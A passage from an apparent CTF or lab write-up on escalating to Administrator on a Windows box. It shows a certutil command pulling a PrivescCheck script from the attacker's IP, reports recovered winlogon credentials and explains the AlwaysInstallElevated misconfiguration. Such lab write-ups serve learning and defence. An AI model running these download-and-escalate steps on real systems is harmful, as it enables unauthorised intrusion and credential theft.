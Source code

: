 
### Shell as Administrator

For the privesc part, we can go with tool “[privescCheck](https://github.com/itm4n/PrivescCheck)”. We have to simply transfer that powershell script to to target machine, then we can run that.

```bash
dev-datasci-lowpriv@DEV-DATASCI-JUP C:\Users\dev-datasci-lowpriv\Desktop>certutil.exe -urlcache -f http://10.17.87.131/privescCheck.ps1
 privescCheck.ps1
****  Online  ****
CertUtil: -URLCache command completed successfully.

dev-datasci-lowpriv@DEV-DATASCI-JUP C:\Users\dev-datasci-lowpriv\Desktop>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 8AA3-53D1

 Directory of C:\Users\dev-datasci-lowpriv\Desktop

07/17/2025  02:52 AM    <DIR>          .
07/17/2025  02:52 AM    <DIR>          ..
07/17/2025  02:52 AM           211,826 privescCheck.ps1
08/25/2022  05:21 AM        28,916,488 python-3.10.6-amd64.exe
08/25/2022  07:40 AM                27 user.txt
               3 File(s)     29,128,341 bytes
               2 Dir(s)  36,662,030,336 bytes free
```

Run that script via powershell.

<img width="1806" height="670" alt="image 1" src="https://github.com/user-attachments/assets/38382aaf-1681-4b22-abfa-8ae35a91a0a2" />

This script discovered a winlogon credentials:

<img width="1866" height="573" alt="image 2" src="https://github.com/user-attachments/assets/74caa0f2-eefd-493d-8959-86e7de334ecc" />

Current user’s login password.

Then, it discovered a severe vulnerablity , AlwaysInstallElevated:

<img width="1880" height="696" alt="image 3" src="https://github.com/user-attachments/assets/ba7748ee-e45d-455c-9653-88be6158bbdd" />


What is this vulnerablity and how can we use that for privilege escalation?

`AlwaysInstallElevated` is a Windows policy setting that, when enabled in both the **HKLM** (machine-wide) and **HKCU** (user-specific) registry hives, allows any user to run Windows Installer `.msi` files with **elevated (SYSTEM)** privileges.

While researching about this vulnerablity, I came on a post by hacking articles about this vulnerablity, where there is a great explanation and simulation of this vulnerablity. You can also check that:

https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/?source=post_page-----d7638cb4ecad---------------------------------------
